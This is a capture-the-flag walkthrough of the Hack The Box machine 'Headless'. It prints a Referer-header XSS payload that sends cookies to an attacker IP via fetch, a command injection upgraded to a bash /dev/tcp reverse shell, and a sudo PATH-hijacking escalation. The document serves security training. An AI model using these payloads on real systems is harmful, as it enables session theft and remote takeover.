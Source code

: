 # Headless Writeup - by Thammanant Thamtaranon  
- Headless is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.8`  
![Nmap_Scan](Nmap_Scan.png)

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://10.10.11.8:5000`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- One interesting path we discovered was:  
  `http://10.10.11.8:5000/support`

## Exploitation  
- We initially tested for XSS vulnerabilities through standard input fields.  
![XSS_Failed](XSS_Failed.png)  
- This failed, but testing the **Referer** header instead proved successful.  
![XSS_Work1](XSS_Work1.png)  
![XSS_Work2](XSS_Work2.png)  
- We modified the payload to exfiltrate cookies:  
  `<script>fetch("http://10.10.16.11:8000/steal?cookie=" + document.cookie);</script>`  
![XSS_POC](XSS_POC.png)  
- This gave us the session cookie and access to `/dashboard`.  
![Cookie](Cookie.png)

- While analyzing a command form using Burp Suite, we attempted command injection using `;+id`, which worked.  
![ComInj](ComInj.png)  
- We upgraded the payload to gain a reverse shell using:  
  `/bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/10.10.16.11/4444+0>%261'`  
- This gave us a shell as the user `dvir`.  
![Shell](Shell.png)  
- We then captured the **user flag**.

## Privilege Escalation  
- Running `sudo -l`, we discovered a script that can be executed as root.  
![SUDO](SUDO.png)
- The script referenced a file called `initdb.sh` using a relative path:  
  `if ! pgrep -x "initdb.sh" &>/dev/null;`
![CAT](CAT.png)  
- This is vulnerable to **PATH hijacking**, allowing us to place our own malicious `initdb.sh` in the current directory.  
- We created a shell script, named it `initdb.sh`, gave it execution permission, and run the command `sudo /usr/bin/syscheck`.  
![Root](Root.png)  
- We received a shell as `root` and obtained the **root flag**.
